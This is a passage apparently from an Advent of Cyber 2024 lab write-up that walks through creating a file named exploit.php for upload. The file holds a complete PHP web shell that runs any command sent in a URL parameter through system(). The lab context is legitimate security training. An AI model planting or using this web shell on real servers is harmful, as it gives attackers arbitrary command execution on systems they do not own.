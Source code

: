 Save the PHP code below with a filename of your choice, exploit.php.

```bash
nano exploit.php
```

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
![Screenshot](/assets/img/Advent%20Of%20Cyber%202024/34.png)

let's upload our exploit.php file..
